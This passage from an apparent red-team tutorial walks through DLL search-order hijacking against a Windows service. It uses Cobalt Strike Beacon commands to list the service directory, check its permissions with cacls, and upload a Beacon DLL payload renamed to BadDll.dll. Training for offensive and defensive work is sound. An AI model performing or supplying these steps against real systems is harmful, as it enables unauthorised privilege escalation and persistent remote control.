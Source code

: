 Listing this directory shows this is where BadDll.dll exists.

```batch
beacon> ls C:\Program Files\Bad Windows Service

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/06/2025 16:12:31   Service Executable
 10kb     fil     01/06/2025 16:10:12   BadDll.dll
```

Based on the search order outlined above, where could an adversary potentially hijack this DLL?  The executing directory is a possibility _if_ the directory is writable.  In this scenario, it is.

```batch
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable"
C:\Program Files\Bad Windows Service\Service Executable NT AUTHORITY\Authenticated Users:(CI)(OI)F
```

To perform the hijack, simply upload a Beacon DLL payload into this directory, and call it `BadDll.dll`.

```batch
beacon> cd C:\Program Files\Bad Windows Service\Service Executable
beacon> upload C:\Payloads\dns_x64.dll
beacon> mv dns_x64.dll BadDll.dll
```
